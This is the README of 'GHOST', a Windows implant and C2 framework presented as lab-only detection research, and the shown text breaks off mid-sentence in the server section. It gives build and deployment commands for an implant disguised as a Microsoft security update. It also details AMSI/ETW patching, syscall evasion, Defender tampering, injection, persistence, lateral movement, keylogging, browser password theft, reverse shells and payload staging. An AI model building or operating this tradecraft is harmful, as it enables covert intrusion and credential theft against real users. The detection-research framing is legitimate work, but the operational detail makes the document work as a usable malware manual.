



<div align="center">

# 👻 GHOST

### Adversary Emulation & Detection Research Framework

*A modular Windows post-exploitation framework for studying attacker tradecraft*
*and validating defensive detections in isolated, self-owned lab environments.*


</div>

---

> [!CAUTION]
> ### Authorized laboratory use only
> GHOST is an academic research project for studying Windows internals, adversary
> emulation and detection engineering inside **isolated, personally-owned lab VMs**.
>
> It builds, installs, persists, injects, captures credentials and takes control of a
> desktop. Running it against any system you do not own — or lack **explicit written
> authorization** to test — is a criminal offense in most jurisdictions. The author
> accepts no responsibility for misuse. Nothing here is a license to break the law.

---

## Contents

| | | | |
|---|---|---|---|
| [1. Overview](#1-overview) | [2. Quickstart](#2-quickstart) | [3. Architecture](#3-architecture) | [4. Implant lifecycle](#4-implant-lifecycle) |
| [5. C2 protocol](#5-c2-protocol-and-channel-security) | [6. Tradecraft internals](#6-tradecraft-internals) | [7. Persistence](#7-persistence) | [8. Operator CLI](#8-operator-cli) |
| [9. C2 server](#9-c2-server) | [10. Command reference](#10-implant-command-reference) | [11. Build guide](#11-build-guide) | [12. Configuration](#12-configuration-reference) |
| [13. Lab walkthrough](#13-lab-walkthrough) | [14. Operator workflows](#14-operator-workflows) | [15. Testing and CI](#15-testing-and-ci) | [16. MITRE ATT&CK](#16-mitre-attck-mapping) |
| [17. Detection guidance](#17-detection-guidance) | [18. Known limitations](#18-known-limitations-and-scope) | [19. Troubleshooting](#19-troubleshooting) | [20. Project layout](#20-project-layout) |
| [21. Contributing](#21-contributing) | [22. Roadmap](#22-roadmap) | [23. License](#23-license-and-permitted-use) | [24. Disclaimer](#24-disclaimer) |

---

## 1. Overview

GHOST answers one question from both directions:

> *What does modern post-exploitation tradecraft actually look like on the wire, in memory,
> and in endpoint telemetry — and can a defender see it?*

Three cooperating components make up the framework:

| Component | Tech | Responsibility |
|---|---|---|
| **Implant** | C++17 · Win32 + Native API · MinGW-w64 cross-compile | Beacon agent that demonstrates post-exploitation techniques |
| **C2 server** | Python 3.10+ · Flask REST · in-memory state | Session enrollment, task routing, payload staging, audit trail |
| **Operator CLI** | Python 3 · console + subcommands | Scriptable operator console, reverse-shell listener, JSON output |

The research value is **measurability**. Every technique is named, isolated in one module and
mapped to a MITRE ATT&CK identifier, so each capability doubles as a deterministic test case
for EDR / SIEM coverage validation.

### What GHOST is

- A **detection test generator**: run one row of the capability matrix, then check what telemetry came out.
- A **readable reference** of how modern tradecraft is implemented end to end (syscalls, injection, channel crypto, task state machines).
- A **thesis artifact**: protocol, state and crypto decisions are documented, including the ones deliberately left incomplete.

### What GHOST is not

- Not a pentest product, not a supportable red-team platform, and not a network scanner.
- Not durable *by default*: the server keeps its state in a SQLite store, but the default path is
  in-memory so importing the module has no side effects. Start it with `--db <path>` (or use
  `simpleserver.sh`, which passes one) and sessions, results, task queues, the audit trail and the
  staged payload survive restarts.
- Not stealth-guaranteed: see [Known limitations](#18-known-limitations-and-scope) for the honest threat model, including a documented MITM gap.

---

## 2. Quickstart

Fastest path from clone to a live session. Full detail lives in [Build guide](#11-build-guide)
and [Lab walkthrough](#13-lab-walkthrough).

### Prerequisites

| Requirement | Needed for | Check |
|---|---|---|
| Linux (or WSL) + **MinGW-w64** | compiling the implant | `x86_64-w64-mingw32-g++ --version` |
| Python **3.10+** | C2 server + operator CLI | `python --version` |
| `flask`, `cryptography`, `requests`, `urllib3` | server / CLI | `pip install -r server/requirements.txt` |
| `pyOpenSSL` | **only** for `--tls` self-signed hosting | `pip install pyOpenSSL` |
| A Windows x64 lab VM | running the implant | snapshot before every run |
| Tunnel (`ngrok http 8080`) or public VPS | reachable C2 endpoint | — |

### 1 — Build the implant

```bash
sudo ./build.sh --setup                      # install the MinGW-w64 toolchain
chmod +x build.sh

# scripted (CI-friendly):
C2_HOST=your-tunnel.example.com C2_PORT=443 ./build.sh

# interactive: prompts for C2 host, port and beacon token
./build.sh
#  →  build/WindowsSecurityUpdate.exe
```

The C2 endpoint and beacon token are XOR-obfuscated and baked into the binary at compile time.
Leave the beacon token prompt **empty** to have `build.sh` generate a random one and print it —
the server must be started with the same value.

### 2 — Run the C2 server

One command brings the whole lab up (Linux / WSL / Git Bash):

```bash
./simpleserver.sh                 # foreground; Ctrl-C stops it
./simpleserver.sh up -d           # detached, then: status | logs -f | down
./simpleserver.sh up --ngrok      # also start a tunnel and print its host
```

It generates the lab secrets once into `server/lab/lab.env` (0600, gitignored),
initialises the SQLite store at `server/lab/ghost.db`, starts the server with TLS when
`pyOpenSSL` is available, and prints the operator CLI command plus the exact `./build.sh`
line for the implant — including the beacon token the server is actually using. Safe
defaults: sessions wait for approval (pass `--auto-accept` to skip that), tokens are
per-lab, and `./simpleserver.sh reset` asks before deleting history.

Doing it by hand is still supported and is the shape a VPS/systemd deployment takes:

```bash
pip install -r server/requirements.txt
python server/c2_server.py \
    --tls --auto-accept --db server/ghost.db \
    --beacon-token <token-from-build> \
    --operator-token <pick-one>
ngrok http 8080
```

`--db` is what makes sessions, results and the audit trail survive a restart; without it the
server runs on an in-memory store and says so at startup. The dashboard login comes from
`--user`/`--password` (the launcher generates a password; the defaults `admin`/`admin` must be
changed if you start it by hand).

### 3 — Operate

```bash
# interactive session picker (numbered table → select a row → shell)
python server/c2_cli.py --url https://your-tunnel.example.com --token <operator-token>

# or one-shot subcommands
python server/c2_cli.py sessions
python server/c2_cli.py task <sid> "!screenshot"
python server/c2_cli.py results <sid>
```

### 4 — Verify the channel

```bash
python tests/test_protocol.py     # 34 end-to-end checks against a live server
```

---

## 3. Architecture


```mermaid
flowchart LR
    subgraph OPS["🖥️ Operator side"]
        CLI["c2_cli.py<br/>console · subcommands · JSON"]
        DASH["Web dashboard<br/>sessions · tasking · audit<br/>drag-drop payload staging"]
        LIS["Reverse-shell listener<br/>c2_cli.py listen"]
    end

    subgraph INFRA["☁️ C2 infrastructure — lab VPS or ngrok"]
        SRV["c2_server.py<br/>Flask REST · ECDH + AES-GCM<br/>task queue · audit trail"]
        TUN["ngrok / TLS front"]
    end

    subgraph LAB["🪟 Lab VM — Windows x64"]
        IMPL["WindowsSecurityUpdate.exe<br/>GHOST implant"]
        VNC["VNC viewer in listen mode<br/>RFB 3.3"]
    end

    CLI -->|"X-Operator-Token"| SRV
    DASH --> SRV
    SRV === TUN
    IMPL -->|"HTTPS beacon<br/>ECDH P-256 · AES-256-GCM"| TUN
    TUN --> SRV
    IMPL -.->|"!vnc dials out"| VNC
    IMPL -.->|"!reverse dials out"| LIS
```

**Data path.** The implant polls `POST /beacon` on a jittered interval; queued tasks arrive in
the beacon response, results return via `POST /result`. Both bodies are encrypted end-to-end
between implant and server, so neither the tunnel provider nor a passive observer sees task
content. `!vnc` and `!reverse` are **dial-out** channels — the implant connects to the operator,
which is why no listener needs to be reachable from outside on the victim.

**DoH fallback.** When the hostname path dies at the transport layer, `doh.cpp` resolves the C2
host through a DNS-over-HTTPS resolver and the beacon connects to the literal address with the
original `Host` header. It is a resolution path, not a second protocol — see
[section 5](#dns-over-https-fallback-resolution--dohcpp) for what it hides and what it costs a
defender.

---

## 4. Implant lifecycle

`WinMain` is a supervisor; the beacon work runs on a worker thread that is restarted on crash.


```mermaid
sequenceDiagram
    participant W as WinMain (supervisor)
    participant T as ImplantThread
    participant S as C2 server

    W->>W: SpoofPEB — ImagePathName + CommandLine<br/>→ C:\Windows\System32\WindowsSecurityUpdate.exe
    W->>W: Suppress crash dialogs + disable WER reporting
    W->>W: Single-instance mutex, name derived from C: volume serial
    W->>W: SelfInstall → copy to %APPDATA%\Microsoft\WindowsUpdate<br/>hide + system attrs, spawn installed copy, schedule self-delete of original
    W->>T: CreateThread (restart loop, backoff 5s → 60s cap)
    T->>T: Sandbox check (uptime under 240 s AND fewer than 50 processes) → idle until cleared
    T->>T: DecoyLoop busy-work · InitializeSyscalls (Hell's Gate + Halo's Gate)
    T->>T: PatchAMSI · PatchETW · ClearHardwareBreakpoints
    T->>T: Defender exclusion + HKCU/HKLM Run persistence (only if elevated)
    T->>T: WMI + scheduled-task persistence on a background thread
    T->>S: POST /beacon  (fresh ephemeral ECDH keypair, X-Pub-Key)
    S-->>T: task + server public point (spk)
    T->>S: hello result — host, user, run id, elevated flag
    loop every 18–24s (jittered)
        T->>S: POST /beacon — ack previous tid, monotonic counter n
        S-->>T: next queued task
        T->>S: POST /result — status ok / error / timeout
    end
```

| Stage | Behavior worth knowing |
|---|---|
| **Instance guard** | Mutex name is built from the `C:` volume serial mixed with a compile-time constant and formatted as a fake COM GUID — one instance per machine, and no cross-machine signature. It waits 20 s for the parent to release during self-install handoff instead of self-terminating. |
| **Self-install** | Copies to `%APPDATA%\Microsoft\WindowsUpdate\WindowsSecurityUpdate.exe`, sets hidden + system, launches the installed copy, then deletes the original via a delayed `cmd /c ping & del`. If the copy fails it runs in place. |
| **Supervisor** | Any worker exit other than `0xDEAD` (clean operator `exit` / migration) is treated as a crash and restarted with exponential backoff capped at 60 s. |
| **Evasion re-apply** | AMSI/ETW patches are re-applied on every beacon pass and forcibly re-applied after a reconnect, because a restarting EDR can un-patch the process. |
| **Beacon pacing** | Immediate re-beacon after executing a task (no sleep) so command chains run back-to-back; consecutive failures back off as `BEACON_MIN × BACKOFF_FACTOR^(failures-1)`, holding after `MAX_FAILURES` steps and capped at `BACKOFF_MAX_SEC` (30 min). The same schedule covers thrown exceptions, and it shortens to 3 s while in rapid-poll shell mode. |
| **Output caps** | Text results are truncated at `CMD_OUTPUT_MAX`; screenshots and `!live` frames are exempt and allowed up to 32 MB, otherwise base64 images arrive corrupted. |

---

## 5. C2 protocol and channel security

The channel is layered so that neither the tunnel provider nor a passive network observer can
read task content.

| Layer | Mechanism | Defends against |
|---|---|---|
| Transport | HTTPS via WinHTTP through an ngrok / TLS front; `WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY` first, direct as fallback | Passive LAN / ISP observers |
| Channel key | **Ephemeral ECDH P-256.** The implant generates a fresh keypair **per run** and sends its public point in `X-Pub-Key`; the server publishes its point in the beacon response (`spk`); both derive `SHA-256(ECDH)` | Key recovery from captured traffic — no key material ever crosses the wire |
| Payload | **AES-256-GCM** (BCrypt on the implant, `cryptography` on the server), wire format `Base64(nonce[12] ‖ tag[16] ‖ ciphertext)` | TLS-terminating middleboxes reading task traffic |
| Auth | Constant-time comparison (`secrets.compare_digest`) on `X-Beacon-Token` / `X-Operator-Token` | Beacon injection and unauthenticated tasking |
| Protocol mimicry | User-Agent `Microsoft-WNS/10.0` (Windows Notification Service) on every beacon | Casual flow analysis that fingerprints beacon libraries |

### Request shape

| Header / field | Direction | Purpose |
|---|---|---|
| `X-Beacon-Token` | implant → server | Shared build-time secret; authenticates the agent |
| `X-Session-ID` | implant → server | Stable id: `hostname-hash \| username` |
| `X-Pub-Key` | implant → server | Base64 X‖Y of the run's ephemeral P-256 public point |
| `spk` | server → implant | Server public point — completes / re-establishes the handshake |
| `cmd`, `tid` | server → implant | Task payload and server-generated task id |
| `n` | both directions | Monotonic per-session message counter used for replay rejection |
| `ack` | implant → server | Confirms the task id that was executed on the previous beacon |

### Task delivery and integrity (protocol v2)


```mermaid
stateDiagram-v2
    [*] --> queued : operator POST /task
    queued --> sent : served in beacon response
    sent --> queued : not acked → re-serve (at-least-once)
    sent --> acked : implant acks tid
    acked --> done : result received
    done --> [*]
    sent --> sent : duplicate result → deduped
```

| Property | Mechanism |
|---|---|
| Agent identity | Stable session id **plus** a per-run id (8 hex from `BCryptGenRandom`), so individual implant runs are distinguishable in the session list |
| Task lifecycle | Every operator task gets a server-generated `tid` and moves `queued → sent → acked → done` |
| Acknowledgement | The implant acks the executed `tid` in its next beacon; the ack is visible in the audit trail |
| Retry | At-least-once delivery — an unacknowledged task is re-served on a later beacon |
| Duplicate protection | The implant remembers the last 32 task ids and answers retries with `"[duplicate task - result already delivered]"`; the server deduplicates retransmitted results |
| Integrity | GCM authentication tag over every payload |
| Replay protection | Receivers reject a non-advancing `n`; the counter re-baselines only on a fresh handshake |
| Status reporting | Results carry machine-readable status: `ok` / `error` / `timeout` |
| Auditability | Append-only, capped in-memory audit trail (14 event types — [full list](#audit-events)) |

### Self-healing on server restart

Rotating the server restarts its ECDH keypair and clears in-memory state. The next encrypted
beacon is answered with a **plaintext re-handshake** response carrying a fresh server point;
the implant adopts the new key within one beacon interval with no operator action.

### DNS-over-HTTPS fallback resolution — `doh.cpp`

Built as a measured technique, not a convenience. When the hostname path dies at the transport
layer — resolver blocked, sinkholed or blackholed — the beacon POSTs a raw DNS wire-format query
([RFC 8484](https://www.rfc-editor.org/rfc/rfc8484)) to a DoH resolver over HTTPS and connects to
the literal answer with the original `Host` header. The endpoint is baked in at build time
(`GHOST_DOH_URL`, default `https://1.1.1.1/dns-query` — an IP literal on purpose, because a
hostname endpoint would need the very resolution the fallback replaces), and the behavior is
switchable at runtime with `!doh on|off|status` so the experiment and its control run on the same
VM.

Policy is deliberately small: one resolution attempt per failure window
(`DOH_FAIL_BACKOFF_SEC`), and once a literal has actually carried a request it leads for
`DOH_IP_TTL_SEC` before the hostname path is re-probed — a blocked resolver must not put a
resolve timeout in front of every request.

What the fallback costs a defender, stated as telemetry rather than as stealth:

- **No `DnsQuery` (EID 22) event is emitted for the C2 name**, so
  `command_and_control_dns_query_unknown_image.yml` is blind for the duration of the fallback.
  That measurement is the point of implementing it.
- The compensating host-side signal is the **connection to the resolver** —
  `command_and_control_doh_resolver_unknown_image.yml` (EID 3 to the published resolver
  addresses, from an image outside the browser and signed-install paths).
- The question and answer ride inside TLS, so recovering the queried name needs network-side
  inspection; no host event substitutes for that.

Scope limit: WinHTTP derives SNI from the connect target and offers no supported override, so an
edge that routes TLS by SNI (ngrok, Cloudflare custom hostnames) is expected to reject the
fallback channel while a bare VPS endpoint accepts it. Not yet exercised against a live tunnel —
recorded in [section 18](#18-known-limitations-and-scope) either way.

### Second stage over the existing channel — `!stage`

The operator stages a payload with `c2_cli.py payload upload <file>`; `!stage` fetches it over the
same authenticated, encrypted channel as every beacon and runs it, so no second delivery model is
introduced. The fetch is an ingress transfer (T1105) that is indistinguishable from any other
agent request on the wire — what makes it findable is the server's own audit trail
(`payload_uploaded` → `payload_downloaded` → an unexplained thread), which is why the server
records both. Execution has two modes with different telemetry: `!stage <pid>` reuses the
syscall injection chain (EID 10 + EID 8, covered by the injection rule), while `!stage self`
allocates RW→RX in the implant's own process and starts a thread — no Sysmon event at all, a
documented gap, and a payload fault takes the implant down with it. `!stage info` reports size and
SHA-256 without executing, which is the experiment's before-record.

---

## 6. Tradecraft internals

Each mechanism is isolated in one module so it can be enabled, disabled and measured independently.

### Direct and indirect syscalls — `syscalls.cpp`

**Hell's Gate + Halo's Gate.** `ntdll.dll` is read **from disk** (bypassing the hooked in-memory
copy), its PE export table is parsed, and syscall numbers are pulled out of stub bytes with the
`4C 8B D1 B8 <ssn>` pattern. Exports are sorted by RVA, because syscall numbers are contiguous
in RVA order — that is what makes **Halo's Gate** work: if a target stub is hooked (a `E9` /
`FF 25` jump at entry), neighbouring exports are scanned up to ±60 slots and the number is
recomputed by delta. Numbers are then written into freshly allocated RX trampoline stubs.

All eleven entries are resolved through **`RESOLVE_OPT`**: a number that cannot be found is skipped
silently, and each injection helper tests its slot and falls back to the Win32 equivalent
(`OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx`) when it is null. No entry
is mandatory — every call site null-checks first — so `InitializeSyscalls` only fails outright when
ntdll can neither be read from disk nor mapped from the loaded module, or its export table will not
parse. `WinMain` retries the initialization five times, five seconds apart, then lets the thread
return so the supervisor restarts it.

Stub bytes are written into a single `VirtualAlloc` pool (32-byte aligned slots) that is
flipped to `PAGE_EXECUTE_READ` and icache-flushed after the last stub lands. Each stub takes
whichever form the resolver found: the direct 11-byte `mov r10,rcx / mov eax,<ssn> / syscall /
ret`, or the indirect 21-byte form that replaces `syscall` with `mov r11,<addr> / jmp r11`
aimed at a `syscall; ret` pair inside the **loaded** ntdll. The indirect form is preferred
because the instruction then lives in Microsoft's own code instead of a private RX allocation;
the scan looks in the target function's own stub first (its bytes sit past the entry point, so
an entry-point hook still leaves the real `syscall; ret`), falls back to any clean pair in
ntdll's `.text`, and degrades to the direct stub when neither exists — this path never fails a
resolution. `r11` is caller-saved scratch under the x64 ABI, so no syscall argument register is
clobbered, and because the trampoline jumps rather than calls, the `ret` inside ntdll returns
straight to the original caller. If the on-disk read fails, ntdll is mapped from the loaded
module as a fallback view — visible hooks are then handled by Halo's Gate instead.

### API and string resolution — `obfuscate.hpp`

| Primitive | Effect |
|---|---|
| `XS("...")` / `XSW(L"...")` | Compile-time narrow/wide strings, each XORed with its own splitmix64 keystream and decrypted on first use |
| Build salt + rotating key | `GHOST_SALT` / `GHOST_K0..K3` — feed every per-string seed: one recovered keystream decrypts exactly one string, and identical literals no longer share ciphertext; change both before each build |
| `FNV("WinHttpOpen")` | Compile-time FNV-1a 32-bit hash — no API name strings in `.rdata` |
| `HashProc` / `HASHPROC` | Resolves exports by walking the **PEB loader links**, not `GetProcAddress` |

Net effect: a release artifact should yield no URLs, no API names, no PowerShell fragments and
no build secrets to `strings` — and `tests/check_strings.py` checks that mechanically on every
CI build, because whether each construction actually folds into rodata is a compiler
optimisation rather than a language guarantee (see
[known limitations](#18-known-limitations-and-scope)).

### Defender tampering and posture — `defender.cpp`

The advanced arm of T1562.001, built as a set of ATT&CK test cases rather than a single
blunt disable. `!defender status` reports the posture as JSON, and **every mutating action
answers with the posture before and after**, so the experiment records what changed rather
than what was attempted — including when tamper protection rejects the write, which is
reported as the result rather than swallowed as an error.

| Vector | Mechanism | Telemetry it produces |
|---|---|---|
| Exclusion (registry) | `Exclusions\Paths\|Processes\|Extensions` DWORD values | Sysmon EID 13 (`defense_evasion_defender_exclusion_write.yml`) |
| Exclusion (cmdlet) | `Add-MpPreference -ExclusionPath\|-ExclusionProcess\|-ExclusionExtension` | EID 1 process creation; cmdlet text is inside `-EncodedCommand`, so 4104 is what recovers it |
| Monitoring disable | `Set-MpPreference -Disable*` + `Policies\Microsoft\Windows Defender` policy keys | EID 1 (cmdlet) and EID 12/13/14 (policy keys — `defense_evasion_defender_policy_write.yml`) |
| ASR exclusions | `-AttackSurfaceReductionOnlyExclusions` | EID 1, encoded |
| Posture read | `Get-MpComputerStatus` / `Get-MpPreference` | EID 1 (the process); the cmdlet text needs 4104 — recorded as gap T1518.001 rather than dressed up as a rule |

`!defender restore` re-enables monitoring and removes the policy values this module writes; it
deliberately does **not** remove exclusions implicitly, because silently cleaning up would erase
the artifact the experiment is measuring. Nothing here touches quarantine, signatures or the
Defender install.

### Raw disk access — `disk.cpp` (read-only, deliberately)

`!diskread [lba]` opens `\\.\PhysicalDrive0` for `GENERIC_READ`, reads exactly one 512-byte sector
and reports the boot signature, a hex line and the four partition-table entries — T1006 telemetry
(Sysmon EID 9) plus a before/after record an operator can keep next to a VM experiment.

**There is no write path, no sector-write parameter and no corrupt variant, and that is a design
boundary rather than unfinished work.** Three reasons, all of which the repository already lives
by: the framework self-installs and persists, so destructive code in it is one task away from any
machine it reaches, isolated-VM assumption or not; a raw overwrite emits *nothing* in this
collection profile (Sysmon has no raw-write event), so it would add zero measurable detection
value; and the rule this project already states — the high-confidence signals never require the
payload to actually destroy anything — applies unchanged. The write half is recorded as gaps
T1561.002 (disk structure wipe) and T1542.003 (MBR bootkit), and a destructive trigger belongs to
the operator's own VM tooling, not to the implant.

### Lateral movement — `lateral.cpp`

Three vectors, each the cheapest form that still leaves its rule something to match.
`!lateral wmi <host> <cmd>` drives `Win32_Process.Create` over DCOM against the remote
`root\cimv2` namespace — the target sees a process parented by `WmiPrvSE.exe`, the source sees
TCP 135. `!lateral winrm <host> <cmd>` runs `winrs -r:`, leaving the command line on the source
and a `wsmprovhost.exe`-parented process on the target. `!lateral smb <host> <cmd>` maps the
admin share and creates a remote scheduled task that runs the command as SYSTEM.

All three use the caller's current token: no credential material is passed around here, because
password/hash-based movement is a different technique and is deliberately not implemented. Nothing
is cleaned up implicitly either — the task and the SMB session stay on the target so the
experiment can be scored, and the output prints the exact revert commands. In a lab, that revert
line is part of the experiment record.

### Defense impairment — `evasion.cpp`

- **AMSI**: `AmsiScanBuffer`, `AmsiScanString`, `AmsiOpenSession` patched to `xor eax,eax; ret`.
  Patch bytes are **computed at runtime** (`MakePatch3`) so no `33 C0 C3` / `C3` pattern exists in `.rdata`.
- **ETW**: `EtwEventWrite`, `EtwEventWriteFull`, `EtwEventWriteEx`, `EtwEventWriteTransfer`,
  `EtwEventActivityIdControl`, `EtwEventRegister`, `EtwEventUnregister` patched to `ret`.
- **Hardware breakpoints**: debug registers cleared through `NtQuery/NtSetInformationThread` — anti-instrumentation.
- **Memory patching** goes `NtProtectVirtualMemory` → write → `FlushInstructionCache` → restore, with a `VirtualProtect` fallback.
- **Microsoft Defender exclusion** is attempted only when elevated; tamper-protection changes require SYSTEM/TrustedInstaller, which the token-steal path can provide.
- **Sandbox check**: uptime under 240 s **and** fewer than 50 processes ⇒ assumed automated analysis, and the implant idles instead of executing. Disabled in `DEBUG` builds.
- **Sleep evasion**: `SetThreadExecutionState(ES_CONTINUOUS | ES_SYSTEM_REQUIRED | ES_AWAYMODE_REQUIRED)` while beaconing, released before each idle sleep.

### Masquerading — `resources/`, `main.cpp`

| Surface | Value |
|---|---|
| File / path | `WindowsSecurityUpdate.exe` in `%APPDATA%\Microsoft\WindowsUpdate` (PEB spoof shows `C:\Windows\System32\…`) |
| Version resource | `Microsoft Corporation`, `Windows Security Update Service`, `10.0.22621.2506 (WinBuild.160101.0800)` — matches what Sigcheck/PE-bear show on real System32 binaries |
| Manifest | `asInvoker` (no UAC prompt), PerMonitorV2 DPI, Win7 → Win11 compatibility GUIDs, assembly name `Microsoft.Windows.SecurityUpdateService` |
| PEB | `ImagePathName` and `CommandLine` Unicode strings overwritten — Task Manager and PEB-reading tools show the fake path |
| PE timestamp | Randomized to a 2018–2024 value at build time (release only) |
| Release binary | `-static`, stripped, `.comment`/`.note` removed, `--gc-sections`, ASLR + high-entropy VA + NX preserved |

### Injection — `injection.cpp`

- **Remote-thread chain** over direct syscalls: `NtOpenProcess` → `NtAllocateVirtualMemory` →
  `NtWriteVirtualMemory` → `NtProtectVirtualMemory` → `NtCreateThreadEx`.
- **APC injection**: the target's threads are enumerated with a Toolhelp snapshot and opened
  through a hash-resolved `OpenThread` (`THREAD_SET_CONTEXT | SUSPEND_RESUME | QUERY_INFORMATION`);
  the shellcode is allocated, written and re-protected remotely, then queued with
  `NtQueueApcThread` between `NtSuspendThread` and `NtResumeThread`. The first thread that accepts
  the APC wins; the whole path returns failure cleanly if the three native thread syscalls did not
  resolve.
- **Module stomping** (`!inject-stomp <pid> <hex> [dll]`): the target loads a signed System32 DLL
  through a remote `LoadLibraryW` thread — the export is resolved by hash in our own kernel32 and
  applied to the target's base by RVA, since kernel32 maps at the same offset in every process —
  then the DLL's `.text` is flipped `RW → write → RX` and a thread starts at the module base. The
  payload executes from an image-backed `PAGE_EXECUTE_READ` page of a Microsoft binary instead of
  a private allocation, which is the artifact memory scanners key on. The write is copy-on-write:
  the file on disk and every other process mapping it stay untouched. Default host is
  `C:\Windows\System32\amsi.dll`; pick a DLL the target does not rely on afterwards.
- **PPID spoofing**: `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` on `CreateProcessW` so a new process
  appears as the child of a legitimate long-running service host instead of the implant —
  `!migrate` uses it to parent a fresh copy of itself.
- **Migration**: `!migrate [pid]` spawns a **second copy of the implant** under the chosen parent
  (default: the lowest-PID `svchost.exe` running as SYSTEM, found by token SID), sets a
  `__GHOST_SPAWNED` sentinel so the child skips the instance-mutex check, then exits with `0xDEAD`
  so the parent releases the mutex and the child takes over the session.

### Capture modules

| Module | Implementation |
|---|---|
| `keylog.cpp` | `WH_KEYBOARD_LL` hook on a dedicated pumped thread; `ToUnicode` for dead keys/shift, common VKs mapped to tokens (`[BS]`, `[ESC]`, `[PGU]`…), bare modifiers ignored, circular buffer capped at 64 K chars, mutex-guarded |
| `!screenshot` | GDI capture of the primary screen (optionally scaled 15–100 %), encoded to **JPEG at quality 82** through GDI+ and marked `[SCREENSHOT:JPEG]`, streamed base64. Falls back automatically to a 24 bpp BMP marked `[SCREENSHOT:BMP]` when GDI+ is unavailable or the encode fails, so the command never breaks |
| `vnc.cpp` | **Reverse VNC**: dials `host[:port]` (default 5500) and serves RFB **3.3** with *None* auth; 32×32 changed-tile encoding, `SendInput` replay for keyboard/mouse. Because the implant is the connector, the operator side must be **listening** — a viewer in reverse/listen mode, or an ngrok TCP endpoint in front of one. Non-blocking connect with a 5 s cap so a dead endpoint cannot stall the beacon |
| `!live` / `!input` | Beacon-paced remote control: one task returns a scaled frame and optionally injects normalized mouse coordinates (`!input m <nx> <ny> <btns>`) or a virtual-key event (`!input k <vk> <down>`), enabling browser-based interactive control from the dashboard |
| `!browser` | Edge / Chrome saved-password recovery (T1555.003) using **stock Windows only**: `winsqlite3.dll` reads a copy of `Login Data`, `os_crypt` master key from `Local State` is DPAPI-unprotected, then AES-256-GCM (bcrypt) on `v10`/`v11` blobs with plain-DPAPI fallback for pre-v80 rows. Chrome ≥ 127 `v20` app-bound entries are **detected and reported as not recoverable**. The PowerShell payload is embedded as XOR chunks generated from `tests/browser_dump.ps1` |
| `!clipboard` | Read/write clipboard text |

---

## 7. Persistence

Three vectors are installed at startup; WMI and Task Scheduler run on a background thread
because `IWbemServices::ConnectServer` can block indefinitely on a busy WMI provider.

| Vector | Artifact | Elevated behavior |
|---|---|---|
| Registry Run key | `…\CurrentVersion\Run` value pointing at the installed copy | Always writes `HKCU`; additionally writes `HKLM` when elevated |
| Scheduled task | `MicrosoftEdgeUpdateTaskUser` | `/RL HIGHEST /SC ONSTART` when elevated, `/RL LIMITED /SC ONLOGON` otherwise |
| WMI event subscription | Permanent consumer + filter (and a second script-based consumer) | Names follow the fake Microsoft-component pattern |

`!uninstall` reverses all three — Run values (HKCU and, if elevated, HKLM), the scheduled task,
and the WMI consumer/filter/binding — then exits cleanly. Install and removal are symmetric, so
a lab run can be left exactly as it was found.

---

## 8. Operator CLI

`server/c2_cli.py` runs as an interactive console or as one-shot subcommands.
Configuration precedence (highest first): **CLI flags → environment → `~/.ghost/operator.json`**.

| Invocation | Effect |
|---|---|
| `c2_cli.py` | Interactive numbered session picker; select a row to attach a shell |
| `c2_cli.py sessions [--json]` | Session table: id, IP, last beacon, idle, host, elevation, queue depth, results |
| `c2_cli.py shell <sid>` | Attach a shell — background result poller (2 s), Braille spinner while waiting, 90 s result timeout |
| `c2_cli.py task <sid> <cmd>` | Queue one command |
| `c2_cli.py batch <sid> "c1;c2;…"` | Queue several commands in one call |
| `c2_cli.py results <sid> [--clear] [--all] [--json]` | Read (and optionally drain) stored results |
| `c2_cli.py export <sid> [file]` | Dump all results to `ghost_<sid8>_<ts>.txt` |
| `c2_cli.py kill <sid>` | Queue exit and remove the session |
| `c2_cli.py audit [--limit N] [--json]` | Operator audit trail |
| `c2_cli.py watch [--interval N]` | Full-screen live session list with new-session notifications |
| `c2_cli.py payload upload <file>` | Stage a binary for `!getfile` retrieval |
| `c2_cli.py listen [--port <p>]` | Local listener for `!reverse` dial-out shells (**default 4444**, the port `!reverse` dials) |
| `c2_cli.py config show` / `config set --url --token --proxy` | Inspect / persist operator config |
| `c2_cli.py ping` | Server reachability + live node count |

Global flags: `--url`, `--token`, `--proxy`, `--ssl-verify`, `--verbose`, `--json`.
Environment: `GHOST_C2_URL`, `GHOST_OPERATOR_TOKEN`, `GHOST_PROXY`.

Inside `shell`, `bg` or Ctrl-C backgrounds the session (it is **not** killed) and `exit` kills it.
Readline history persists to `~/.ghost/history` with tab completion on the common commands, where
available. The CLI rotates realistic browser User-Agents per request and disables TLS-warning noise
by default; pass `--ssl-verify` when the server has a real certificate.

> **Port pairing.** `!reverse` defaults to **4444**, which is exactly what `listen` binds — so
> `!reverse <operator-ip>` and a bare `c2_cli.py listen` meet without either side naming a port.
> Move both together with `:port` on the command and `--port` on the listener. This is deliberately
> not `C2_PORT` (443), which is the beacon endpoint, not a shell listener.

---

## 9. C2 server

```bash
python server/c2_server.py [--config ghost.json] [--db server/ghost.db] [--tls] [--auto-accept] \
    [--host 0.0.0.0] [--port 8080] \
    [--beacon-token T] [--operator-token T] [--user U] [--password P]
```

| Endpoint | Auth | Purpose |
|---|---|---|
| `POST /beacon` | beacon token | Check-in; returns next task and, during handshake/recovery, the server public point |
| `POST /result` | beacon token | Task output delivery (deduped, replay-checked) |
| `GET /sessions` | operator token | Session list with idle time, queue depth and recon |
| `POST /sessions/<sid>/accept` · `/reject` | operator token | Enrol or drop a new agent (unless `--auto-accept`) |
| `DELETE /sessions/<sid>` | operator token | Kill a session |
| `POST /task` | operator token | Queue a command, returns `tid` and `queue_depth` |
| `GET /results/<sid>[?clear=1]` | operator token | Read / drain stored results |
| `POST /payload` · `GET /payload` | operator / beacon | Binary staging for implant-side retrieval |
| `GET /audit?limit=` · `POST /audit/clear` | operator token | Audit trail |
| `POST /auth` · `GET`/`POST /logout` | dashboard form login | Web dashboard session |
| `GET /dashboard` | — | Dashboard HTML (served at `/` too) |
| `GET /health` · `GET /ping` | — | Liveness / node count |

The dashboard carries a built-in **command reference** (`?` or the header button): a filterable
panel listing every task the implant accepts, grouped by capability, each row with what it does and
what telemetry it leaves — plus a six-step "how to operate" strip from lab bring-up to teardown.
Clicking a row loads it into the command bar (or copies it when no node is selected), and the same
array feeds the `Ctrl K` palette, so the palette searches the full command surface rather than a
handful of shortcuts. The panel is a copy of this section's reference; keep the two in sync with the
C++ command table when commands change.

Background behavior: a **janitor** thread prunes sessions idle beyond `session_ttl` every 300 s,
